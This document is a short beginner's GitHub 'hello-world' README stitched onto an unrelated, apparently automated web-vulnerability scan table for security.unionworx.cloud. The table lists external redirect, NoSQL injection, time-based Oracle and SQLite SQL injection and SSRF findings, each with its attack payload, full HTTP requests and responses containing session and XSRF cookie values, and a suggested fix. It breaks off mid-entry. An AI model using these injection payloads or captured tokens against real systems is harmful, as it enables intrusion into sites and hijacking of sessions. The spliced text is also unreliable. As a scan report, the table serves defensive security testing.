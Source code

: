 # hello-world
Software Engineering Tech exercise with git, django and python
**This is Amoo Olukunle. I am trying to create a new me in software engineering profession**
*The journey is rough and tough, but the destinition is glorious*
>Though time never last, but though people do
>There are so many things to learn in the program
1. Code skill
2. Collaboration
3. Programming
4. Software development
>There are so many tasks to do
- [] Learn github
- [] Learn Django
- [] Learn Python.
 >
You would like to visit the following website for more information, visit
[Django Tutorial](https://www.djangotutorial.com)
[Git Tutorial](https://www.githubtutorial.com)
[Python Tutorial](https://www.pythontutorial.com)
[^1]: This is the beginnig of a great thing.


| \` | Risk                                    | URL                                                                                                                                                                                  | Attack                                                                                                                                                                                                                                                                                                                                                                           | Request                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      | Response                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       | Description                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             | Solution                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| -- | --------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1  | External Redirect                       | [https://security.unionworx.cloud/account/information/notifications](https://security.unionworx.cloud/account/information/notifications)                                             | [http://6708871227364033168.owasp.org](http://6708871227364033168.owasp.org/)                                                                                                                                                                                                                                                                                                    | POST https://security.unionworx.cloud/password/email HTTP/1.1<br>host: security.unionworx.cloud<br>user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36 OPR/102.0.0.0<br>pragma: no-cache<br>cache-control: no-cache<br>content-type: application/x-www-form-urlencoded<br>referer: http://6873829442880229062.owasp.org<br>content-length: 75<br>Cookie: XSRF-TOKEN=eyJpdiI6InVvR2hYaUNlQ1NuRHVROEFFQUlmWEE9PSIsInZhbHVlIjoic0Y3MlRmM1JjWVA2alBtbEg<br>0Q3ljU0hNY24xTnVGRmtnODdwSlQ4a3dzcVdyTUlqZWZjQ1ZrMzFoVngxQUJIV29pRktuT2V6U0ZPNjRiRlg4Y2N5dGxLSVBoVEljSXp<br>BWHhGdmFrcmd3TFhXbXBFVHJkcm9oL0ZJelloTUdMa0QiLCJtYWMiOiJmZDY5MzJjNWEyZTg4ZTdhM2RmYz<br>hlMDI2NzJhOTI3OWQzNDY0YzUzNGM0ZmQwOTZlMjBlMDMwODc2NWU1ZjRhIiwidGFnIjoiIn0%3D;<br> ibew_test_22_union_worx_session=eyJpdiI6IlRIWWJmRmlLS1g0K3NrdStIekx4NkE9PSIsI<br>nZhbHVlIjoiRU5hUHBUTDN3VW8vbDV5RHliSnNoSlBWT1A5TE9NSmlHc1dBeDExMHFLa0MzSG<br>N5ZjFLTFc5TzVVS2psb2RRcFkzcFVnS3JtRjJCTERHcm41dVozOXNYRzgvQ0ZnVXdJeHp1SGVJN2dVeWx3NTAzMWVXRlhZRFN4dHVvUm51R3AiLCJtYWMiOiJlZmJl<br>YjM1MTQ1MTJiYjRkMTVmNTZjYWJmODM2MGIwOTI5OTUzMzJjYzU3ZjkyZWZmNjEzNTcxNDc0ZmU2MGFmIiwidGFnIjoiIn0%3D<br>                                                                                                                                                                                                                                                                                                                                                                                                               | HTTP/1.1 302 Found<br>Server: nginx<br>Content-Type: text/html; charset=UTF-8<br>Connection: keep-alive<br>Cache-Control: no-cache, private<br>Date: Mon, 25 Mar 2024 20:58:01 GMT<br>Location: http://6873829442880229062.owasp.org<br>Set-Cookie: XSRF-TOKEN=eyJpdiI6IlBQcFNkUVpQRExPUjNpZUNuUjBVT3c9PSIsInZhbHVlIjoiZ0MwTkVLeEVlZ01MZ3hvdEpW<br>K2o4WFMzV3hrUkp3V2F2REx5OU9xWnRoVklNbTFCQjU5NlliZkFLbTZzWkpFekEzVzR6QnFScmUwc1FqdmZFRVphUG5XR3NsRk9jaER5bWpQY0RzdWVNMWd2e<br>UdKTHdSNEMwdGdSZFV0bHA4OHkiLCJtYWMiOiI1MWYzMjE3YzQwNDQ5MWRiNGN<br>mNTA2YWFiNjE5NjI1ZGJiYWQxNTQ3N2UzYzA3NDM4NWVlZTVmN2Q5M2FmZjFjIiwidGFnIjoiIn0%3D; <br>expires=Mon, 25 Mar 2024 22:58:01 GMT; Max-Age=7200; path=/; secure; samesite=lax<br>Set-Cookie:<br> ibew_test_22_union_worx_session=eyJpdiI6Ik9oaEdvMlBUOXhrMGJja3A5TjJYMUE9<br>PSIsInZhbHVlIjoiVU12YnJLZXBYQnlJSTFGa2tqeUJOYTE5Qjl3TTZscWd2MGxtSlYvNUNmdDkrb2x<br>UNENNZ2lDc3FzTHZCR1lQZHFFVjluaGFDY3p1Y1ZSaWpSWFpEdkpwN2lIVTEzcnduSmowL0pDZ2JJZDNKeWk1OWI1YU1rNWk3<br>WGlXMXF0NlAiLCJtYWMiOiIwNzdhMDAzYzFmOGY5MjRiZmJhMmZhMThiZjk2MWFjNjAwNDA2NDZjZmJhMjJhMzcxZjAyYmEyNzg1Zjc0YzlmIiwidGFnIjoiIn0%3D; <br>expires=Mon, 25 Mar 2024 22:58:01 GMT; Max-Age=7200; path=/; httponly; samesite=lax<br>X-Frame-Options: SAMEORIGIN<br>X-XSS-Protection: 1; mode=block<br>X-Content-Type-Options: nosniff<br>content-length: 390                                | URL redirectors represent common functionality employed by web sites to forward an incoming request to an alternate resource.<br> This can be done for a variety of reasons and is often done to allow resources to be moved within the directory structure <br>and to avoid breaking functionality for users that request the resource at its previous location. <br>URL redirectors may also be used to implement load balancing, leveraging abbreviated URLs <br>or recording outgoing links. It is this last implementation which is often used in phishing attacks as described in the example below. <br>URL redirectors do not necessarily represent a direct security vulnerability but can be abused by <br>attackers trying to social engineer victims into believing that they are navigating to a site other than the true destination.      <br>The response contains a redirect in its Location header which allows an external Url to be set.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        | Assume all input is malicious. Use an "accept known good" input validation strategy, i.e., use an allow list of acceptable inputs that strictly conform to specifications. Reject any input that does not strictly conform to specifications, or transform it into something that does. Do not rely exclusively on looking for malicious or malformed inputs (i.e., do not rely on a deny list). However, deny lists can be useful for detecting potential attacks or determining which inputs are so malformed that they should be rejected outright.                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| 2  | NoSQL Injection - MongoDB               | https://security.unionworx.cloud/                                                                                                                                                    | favicon.ico[$ne]                                                                                                                                                                                                                                                                                                                                                                 | GET https://security.unionworx.cloud/ HTTP/1.1<br>host: security.unionworx.cloud<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0)<br> Gecko/20100101 Firefox/123.0<br>Accept: image/avif,image/webp,\*/\*<br>Accept-Language: en-US,en;q=0.5<br>Referer: https://security.unionworx.cloud/login<br>Connection: keep-alive<br>Cookie: XSRF-TOKEN=eyJpdiI6IkVWdlB4WHFOcUNBcXIzNkU0UnBHWnc9PSIsInZhbHVlIjoiQXJuVVM4OVF6TlBxU<br>3dvVDAvWUVtTjV1dnpsS1pSWTlKSyswMTlPdUJTRUlOSklNbWc4dUozZkE1STFETUIxdHRKTlhucUpIekhGZkxpclhQMVgzd<br>nh0Um9OV3lZSHNhcllPVkdobXVZUW1LTytPVE9acVlJd1U1RVhCTldobmYiLCJtYWMiOiIyZmJkMTBlY2I2ZTM3YjQyYTgwMjkxOWUyNTU4OWM5NzhhYzQxNTYwOTRmMjk3MjZiODBlYWIwYTc5Y2UzOTdhIiwidGFnIjoiIn0%3D;<br> ibew_test_22_union_worx_session=eyJpdiI6IkdYd0VJVnpxZGRpc0RHbis3Uy92M1E9PSIs<br>InZhbHVlIjoieVlPdmlnYzlvOGp5YzF3VUtqSWJKQUl5b3ZoenN3WXJpMEhzTkM0RDhuOVVqUjdYNktQMEJPWkIwdXErZjlmS2pw<br>bVl2VW1CKy9vakNSUWMyYVFCTzJVMjRhTFRtRFRabFlDcDgzd2lBa2FHQndlUm5QU1dUU<br>lpDQUF5bzVpb3YiLCJtYWMiOiIyZmZkMGIwZmRiYjU0MTBkYzQyNmNjNTNiMjc1ZjhjN2Y0MjViOTU4MWQ1NGJjOTY0YWM1NTM3ZDc1NzM3ZDgxIiwidGFnIjoiIn0%3D<br>Sec-Fetch-Dest: image<br>Sec-Fetch-Mode: no-cors<br>Sec-Fetch-Site: same-origin<br>                                                                                                                                                                                                                                                                                                                                                                                                          | HTTP/1.1 200 OK<br>Server: nginx<br>Content-Type: text/html; charset=UTF-8<br>Connection: keep-alive<br>Vary: Accept-Encoding<br>Cache-Control: no-cache, private<br>Date: Mon, 04 Mar 2024 08:30:41 GMT<br>Set-Cookie: XSRF-TOKEN=eyJpdiI6InZFT0hBQm16UVBnN3ZRbVd0M29RQXc9PSIsInZhbHVlIjoiSzJxT1lYe<br>UwzS1BnZ3BtUU52RHdzOFhYcjBNUTJKTk14b09TM01UK3Y4bTZsZUYvcWczTXV6b0JXYmxTNWM2VVE3M3p2WmJzMTBpUmZ<br>DQ1dod0RaZGNveGppUGpFc2RwSkMxb2VWNWNiM3R5WU1BSXhoY2psL0VWU050cVdPWkciLCJtYWMiOiI4NTM0MzFjNzNkYWQ4M2U<br>0MWIxNDc0YmFlNDlkYTgyYWM3YjE4M2RiOTRlNzNlN2EwY2M2ZWVlZGNiMGU0NDIwIiwidGFnIjoiIn0%3D; <br>expires=Mon, 04 Mar 2024 10:30:41 GMT; Max-Age=7200; path=/; secure; samesite=lax<br>Set-Cookie: ibew_test_22_union_worx_session=eyJpdiI6ImY4Wmtqa2tmL1RjeFhkMGhBZFYxdmc<br>9PSIsInZhbHVlIjoibW1iUTRUZmJUM29VWUNqVHFDdkNkWE13Uk96WU9DOVlUdjI3d1FsbVl3bzhwMXFra05<br>5dTJIaXAxeHJaMG9YMUdwanBIbGcrakgyRHpEMVF6YTRxdy8xNkJWWW5XMG14MVMyZnlwSUVHLzAyRXVIVzdZK1hEL1hWRGNnQ29tYU8iLCJtYW<br>MiOiIxYTZkN2Q5ZTQ0YTVhNTQ3MzUxZmM2NDBmYTE5OGE4ZmUyNWI0Y<br>2E3MWU3NmNhOTQyY2Q5YmNiNzBmNjdlOWMxIiwidGFnIjoiIn0%3D; expires=Mon, 04 Mar 2024 10:30:41 GMT; Max-Age=7200; path=/; httponly; samesite=lax<br>X-Frame-Options: SAMEORIGIN<br>X-XSS-Protection: 1; mode=block<br>X-Content-Type-Options: nosniff<br>content-length: 33888<br>                                                      | MongoDB query injection may be possible.                                                   <br> In some PHP or NodeJS based back end implementations, in order to obtain sensitive data it is possible to <br>inject the "[$ne]" string (or other similar ones) that is processed as an associative array rather than <br>a simple text.<br>Through this, the queries made to MongoDB will always be true.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          | Do not trust client side input and escape all data on the server side.<br>Avoid to use the query input directly into the where and group clauses and upgrade all drivers at the latest available version.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| 3  | SQL Injection - Oracle - Time Based     | [https://security.unionworx.cloud/img/home/hero-bg-1-lg.png](https://security.unionworx.cloud/img/home/hero-bg-1-lg.png)                                                             | field: [Accept], value [image/avif,image/webp,\*/\* and exists (SELECT  UTL_INADDR.get_host_name('10.0.0.1') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.2') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.3') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.4') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.5') from dual) -- ] | GET https://security.unionworx.cloud/img/home/hero-bg-1-lg.png HTTP/1.1<br>host: security.unionworx.cloud<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0<br>Accept: image/avif,image/webp,\*/\* and exists (SELECT  UTL_INADDR.get_host_name('10.0.0.1') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.2') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.3') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.4') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.5') from dual) --<br>Accept-Language: en-US,en;q=0.5<br>Referer: https://security.unionworx.cloud/resources/css/main.css?id=ad4a6397d15fe88f1f651f12fb7f52ad<br>Connection: keep-alive<br>Cookie: XSRF-TOKEN=eyJpdiI6IkNKSHBvSXpxenpHWVpvN1JZUlFZUUE9PSIsInZhbHVlIjoiYW9sTmZNS2ZFZC9CN1pWcXFoT1hoeG5rOFdYUUI2di9pT1FPZWtSeU<br>NjWFZnNVpQcUtPNUdXUXdpS0kvbU44SjVsamUydHVaQ0xZa2x3cXUxR1RaNCtKQ1lSR0J0aEJLVFZ2eTRFdklPUnhWbFkyUlFKMVp<br>rSXpYYnJ1RTJsWjUiLCJtYWMiOiJhYzlkNmQ0M2ZmMzg5N2EwYTc5ZDQwYjcwYTI4ZjUyNjJjMzQ3MTA1OGI1YjVkMmYxMDE5N2RhYjQxOTMwMDFmIiwidGFnIjoiIn0%3D;<br> ibew_test_22_union_worx_session=eyJpdiI6IjVuQU1SZTFFVDdDeUFRdVRKemF3bkE9PSIsInZhbHVlIjoiV3JpNHE<br>xKy9xcmdZa1dOWjFCZWhuS1JBV3h4UkFsVTdPY1hvZE01bVcvOUhUdXoxc2h6VWUyc0pLZ045S2hMRW91eXNGL2VIcWFvVHYxQ1B1bkk1RWNicHc<br>4OHJLd1NTT05tNUZEd0czU0Zua0VQOUowelBtZUlkVG4rK2xIcWciLCJtYWMiOiI4ZT<br>IyMGY3NzE5NzcwZDg5NzUzODBkMDFjNjIwYWE3ZTkxNDg0NjVkZTc5YjNlNjU4ZmU2Mjg0NGU0OWNkZGQ1IiwidGFnIjoiIn0%3D<br>Sec-Fetch-Dest: image<br>Sec-Fetch-Mode: no-cors<br>Sec-Fetch-Site: same-origin<br> | HTTP/1.1 200 OK<br>Server: nginx<br>Date: Mon, 04 Mar 2024 15:19:17 GMT<br>Content-Type: image/png<br>Content-Length: 4378350<br>Last-Modified: Sat, 02 Mar 2024 02:01:32 GMT<br>Connection: keep-alive<br>ETag: "65e2887c-42ceee"<br>X-Frame-Options: SAMEORIGIN<br>X-XSS-Protection: 1; mode=block<br>X-Content-Type-Options: nosniff<br>Accept-Ranges: bytes<br>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            | SQL injection may be possible. The query time is controllable using parameter value <br>[image/avif,image/webp,\*/\* and exists (SELECT  UTL_INADDR.get_host_name('10.0.0.1') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.2') from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.3') from dual<br> union SELECT  UTL_INADDR.get_host_name('10.0.0.4') <br>from dual union SELECT  UTL_INADDR.get_host_name('10.0.0.5') from dual) -- ], <br>which caused the request to take [8,459] milliseconds,<br> when the original unmodified query with value [image/avif,image/webp,\*/\*] took [422] milliseconds                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      | Do not trust client side input, even if there is client side validation in place.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 4  | SQL Injection - SQLite                  | [https://security.unionworx.cloud/resources/js/back-end/vendor/jquery-ui/jquery-ui.min.js]<br>(https://security.unionworx.cloud/resources/js/back-end/vendor/jquery-ui/jquery-ui.min.js) | case randomblob(10000000) when not null then 1 else 1 end                                                                                                                                                                                                                                                                                                                        | GET https://security.unionworx.cloud/resources/js/back-end/vendor/jquery-ui/jquery-ui.min.js HTTP/1.1<br>host: security.unionworx.cloud<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0<br>Accept: \*/\*<br>Accept-Language: en-US,en;q=0.5<br>Referer: https://security.unionworx.cloud/account/information/general<br>Connection: keep-alive<br>Cookie: XSRF-TOKEN=eyJpdiI6InJjQ1BZdXdUQWtwR3o5OGFJcXFOQ2c9PSIsInZhbHVlIjoiT29Q<br>OHVCbVc4bWllRlBQT1E1THViOWx6WnRlYUFJZW80VXdrNXlJOXpIaHRLcktyaDFpNkdleEZoQ01EU0hQRDJRcFJtamo5TlZkSm42WFlRakx<br>SbzVXYWFRYmUrVDAyZGpwQ3ZmSThmV1ZzNWZLMzA1UEJ6NnprTXNzNE51MnkiLCJtYWMiOiJjZjZhYjRiZjE1ZDExOThhNmYzM2ZjMmIyNTBmMWJ<br>kZjcyODMyY2JiZjkyYzM4NzY1NGRjYWUzZDhmOTA4OWM0IiwidGFnIjoiIn0%3D;<br>ibew_test_22_union_worx_session=eyJpdiI6IkhTOWFma2VvMSswVHQ4OTBBR3lFQmc9PSIsInZhbHVlI<br>joiTHVuNGIrT1BPVjZlUkdzTUFKcysvd216ZlgxemhmSVhRenlwdjRzSER5bWRSYkNSelYyTUM2RXpFRjJG<br>N1N5OTN6aUQ5UTdZZ3haSFc5bkZEbm5kQ0FzNGlWZmZ6TkVQTDZsYXplZnlGUi9ZVERuMzRkRWpvdE<br>5NNDh2azZPaTEiLCJtYWMiOiIxMDViNWE5NGUyYTc5MWZiZmNiZDhhYjQwMTI3NjMyZWQ3YTExYmRjOGFiYzAxMTFiNmE5NWIxYWE4MGUz<br>YjBhIiwidGFnIjoiIn0%3D; \_ga=GA1.2.10702593.1709819271; \_gid=GA1.2.2119953206.1709819271; \_gat_gtag_UA_132022492_1=1<br>Sec-Fetch-Dest: script<br>Sec-Fetch-Mode: case randomblob(1000000) when not null then 1 else 1 end<br>Sec-Fetch-Site: same-origin<br>                                                                                                                                                                                                 | HTTP/1.1 200 OK<br>Server: nginx<br>Date: Thu, 07 Mar 2024 21:31:51 GMT<br>Content-Type: application/javascript; charset=utf-8<br>Content-Length: 36675<br>Last-Modified: Sat, 02 Mar 2024 02:01:32 GMT<br>Connection: keep-alive<br>Vary: Accept-Encoding<br>ETag: "65e2887c-8f43"<br>X-Frame-Options: SAMEORIGIN<br>X-XSS-Protection: 1; mode=block<br>X-Content-Type-Options: nosniff<br>Accept-Ranges: bytes<br>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           | SQL may be possible. The query time is controllable using parameter value <br>[case randomblob(10000000) when not null then 1 else 1 end ], which caused the request to <br>take [471] milliseconds, parameter value [case randomblob(100000000) when not null then 1 else 1 end ], <br>which caused the request to take [646] milliseconds, when the original unmodified query with value [ZAP] took [360] milliseconds.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              | Do not trust client side input, even if there is client side validation in place.<br>In general, type check all data on the server side.<br>If the application uses JDBC, use PreparedStatement or CallableStatement, with parameters passed by '?'                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 5  | Server Side Request Forgery             | [https://security.unionworx.cloud/password/email](https://security.unionworx.cloud/password/email)                                                                                   | [http://192.168.153.1:60742/56a53f92-42b7-4763-89c8-1086a5dc160d](http://192.168.153.1:60742/56a53f92-42b7-4763-89c8-1086a5dc160d)                                                                                                                                                                                                                                               | POST https://security.unionworx.cloud/password/email HTTP/1.1<br>host: security.unionworx.cloud<br>user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36 OPR/102.0.0.0<br>pragma: no-cache<br>cache-control: no-cache<br>content-type: application/x-www-form-urlencoded<br>referer: http://192.168.153.1:60742/56a53f92-42b7-4763-89c8-1086a5dc160d<br>content-length: 75<br>Cookie: XSRF-TOKEN=eyJpdiI6IkJ0c0ZEZVpqbFphcGVGL0tZSWRDbUE9PSIsInZ<br>hbHVlIjoiNm42TzkwVTRJYjFMZ0F4NEwrTnZtcXBYT0RVcDRtT2dRb2RDTFU3QXE5eXJMY1M2Y2tMWFlXSmhnd3RUWXA1TGE<br>raWI3dEZjTWFiQlBtbU9SRmEyYmYvcEFybXNiTVlnOVBIV00vYlphTHo0YWxQUE1LZjJ1W<br>kRZdUFwU3dyc1IiLCJtYWMiOiJlYmM1NGI1NTM5YTA3Y2NhZTJkNzEyNGFkZjliYmQ2Y<br>2IxOThkOTM3NjhlM2ZiMzE5Y2E3YjMwNTNmM2UxYTUzIiwidGFnIjoiIn0%3D;<br> ibew_test_22_union_worx_session=eyJpdiI6Im16c0w3TnBkdWRjUnds<br>ZmYvdVk0Snc9PSIsInZhbHVlIjoieFVRVmQzdWtpdnM0TWg2S2F1TkRma01QbTJQYVJoTm9lSFBUVWFqQ2dLbm5wS2l<br>hSVljSUlBL1Y5UUI5SlBGNjMyZEtnWTFEcndTOUtXeTVobnNYcnJTWGJFYmhQcW52N09<br>hbitsbnJJbmFYOS8xZ1NOdkhlZkVkZGw1MEh1WnEiLCJtYWMiOiJjZDM2ZTJhZGZiNzA4ZT<br>Q2OGIwZmNjNDQ0MDg1MmY0MTk2YTdmYjM1NTNmODdlOGRmMjUzZjEzZTM3MjY5MDk2IiwidGFnIjoiIn0%3D<br>                                                                                                                                                                                                                                                                                                                                                                                    | HTTP/1.1 302 Found<br>Server: nginx<br>Content-Type: text/html; charset=UTF-8<br>Connection: keep-alive<br>Cache-Control: no-cache, private<br>Date: Thu, 07 Mar 2024 17:22:28 GMT<br>Location: http://192.168.153.1:60742/56a53f92-42b7-4763-89c8-1086a5dc160d<br>Set-Cookie: XSRF-TOKEN=eyJpdiI6IkcxWlNwQ3l5clB6dU5PM1NvblVnRlE9PSIs<br>InZhbHVlIjoid0M4ZmtIM0l5WWVCWGpTMDUrdWNnU1pRTExqa0FBY2toVTgyWjN6UGpmaTA1aHN2bFduT1Q0RzRibF<br>hnSkJxc1NKdDFML1NpNFRDWUxLaCtkYWh0Z3BETVhRMVVYQUl1USs2QjhNTHZyazlNc2d2Tjg<br>5YXlEOUdQcW94VkRNY2kiLCJtYWMiOiJiOGNhZmNiYTA2MWMwM2FjOWI2YTJlOWZlMDg4<br>Y2Y0OWE2N2VhNWFlYjI2M2Q1NjA1MWQ3NzNiMzczY2JlMGI0IiwidGFnIjoiIn0%3D;<br> expires=Thu, 07 Mar 2024 19:22:28 GMT; Max-Age=7200; path=/; secure; samesite=lax<br>Set-Cookie: ibew_test_22_union_worx_session=eyJpdiI6IjN6NW9nRm1IL20wV<br>01OcVh6L2lrd3c9PSIsInZhbHVlIjoibE5IK1Y1cC9DSWRVYTFEMzFFMHVDNjZlclBENnVNc2dZTFk1QVo0S2hH<br>ZUZxK3JpM01FMWx6MTdqb1VnUExCcm5DV2lFU1BGUmpqQnl5NEZPMGc1RkxjQWRnS1pjQ0E4NlM2VmRqeGg<br>rNVNpY2RkcWFEZ0JuNi9OVE5VMWdiTDIiLCJtYWMiOiJhZjQxNTMxMTYyNWM3YWNhZmI2MjRiOTZlOTA<br>3YjlhN2UzYjQ2ZDdkYWM2ODAzOTkxOGFkNTdkNDQ1ODZkMGZhIiwidGFnIjoiIn0%3D;<br> expires=Thu, 07 Mar 2024 19:22:28 GMT; Max-Age=7200; path=/; httponly; samesite=lax<br>X-Frame-Options: SAMEORIGIN<br>X-XSS-Protection: 1; mode=block<br>X-Content-Type-Options: nosniff<br>content-length: 498<br> | The web server receives a remote address and retrieves the contents of this URL,<br> but it does not sufficiently ensure that the request is being sent to the expected destination. Received out-of-band interaction <br>[GET http://192.168.153.1:60742/f215f864-41c1-4036-8b4b-52f367751619 HTTP/1.1]<br>Request<br>GET http://192.168.153.1:60742/f215f864-41c1-4036-8b4b-52f367751619 HTTP/1.1<br>host: 192.168.153.1:60742<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0<br>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,\*/\*;q=0.8<br>Accept-Language: en-US,en;q=0.5<br>Referer: http://192.168.153.1:60742/f215f864-41c1-4036-8b4b-52f367751619<br>Origin: https://security.unionworx.cloud<br>Connection: keep-alive<br>Cookie: 